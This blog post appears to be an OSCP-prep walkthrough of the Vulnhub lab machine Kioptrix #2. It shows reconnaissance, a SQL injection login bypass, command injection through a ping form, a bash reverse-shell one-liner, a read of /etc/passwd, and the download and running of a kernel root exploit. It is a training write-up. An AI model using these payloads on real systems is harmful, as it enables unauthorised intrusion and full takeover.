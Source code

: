 ```yaml
---
title: "Kioptrix #2 Walkthrough"
author: alex
date: Thu  5 Jul 16:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-kioptrix-2-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough **[here!](/posts/kioptrix-1-walkthrough)**

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.38    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.38
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.38
Host is up (0.00040s latency).
Not shown: 65528 closed tcp ports (reset)

PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            761/udp   status
|_  100024  1            764/tcp   status

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de29f9fbfb2eb2beafe6243157090f
|_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
|_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1

764/tcp  open  status   1 (RPC #100024)

3306/tcp open  mysql    MySQL (unauthorized)

MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 5h59m58s
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far.

- **Port 80/443:** Let's start with HTTP and HTTPS. We have both ports open so the first thing we are going to do is open the browser and search for http://192.168.1.38. We find a login page, let's keep going with the recon before trying anything here.

- **Other ports:** Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Done with the recon then!

## Enumeration

Back to the login page. This cheap looking login form is crying for some **SQLi attempts**. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field and `1234` as password, we get access to the administrator page!

![SQL Injection](/login-sql-injection.png)

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

```
192.168.1.23

PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms

--- 192.168.1.23 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2
```

Looks like the output we get when pinging from the console so... would it be vulbnerable to **Remote Code Execution**? Let's try to submit `192.168.1.23; whoami`

![Remote Code Execution](/remote-code-whoami.png)

Oh yeah! **Vulnerable to RCE!** We can `cat` the `/etc/passwd` to do some user enumeration as well:

![/etc/passwd File](/data-leak.png)

Now let's try to spawn a shell for us:

**On attaker's machine:**

```bash
sudo nc -nvlp 443
```

**In the ping text field:**

```bash
192.168.1.23; bash -i >& /dev/tcp/192.168.1.23/443 0>&1
```

And we have a shell! Now it's time to escalate privileges! First, let's find out the kernel version and the release.

![Shell](/shell.png)

```bash
uname -a
```

And we see that **kernel is 2.6.9**. Now, let's cat the release:

```bash
cat /etc/*-release
```

And the release is **CentOS 4.5**.

## Exploitation

Back to our machine, let's find an exploit that suits best for these features:

```bash
searchsploit linux 2.6 CentOS 
```

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

```bash
searchsploit -m linux/local/9545.c
```

Now we have to copy it into the `/var/www/html` folder and start Apache.

```bash
sudo service apache2 start
```

Back to Kioptrix:

```bash
wget 192.168.1.23/9545.c
gcc 9545.c -o exploit
chmod 777 exploit
./exploit
```
![Root!](/root.png)

And there we go! Now we are root! I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!
